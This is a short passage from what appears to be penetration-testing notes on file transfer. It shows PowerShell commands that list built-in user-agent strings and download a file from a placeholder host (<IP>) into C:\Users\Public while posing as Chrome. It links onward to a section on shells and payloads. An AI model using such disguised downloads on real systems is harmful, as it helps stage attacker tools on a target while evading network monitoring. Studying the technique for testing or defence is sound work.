&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>Changing User Agent</h2></summary>

**Listing out User Agents**

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Request with Chrome User Agent**
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://<IP>/<FILE> -UserAgent $UserAgent -OutFile "C:\Users\Public\<OUTPUT FILE>"
```

</details>
</details>

---

📘 **Next step:** Continue with [SHELLS & PAYLOADS](./05-shells-payloads.md)
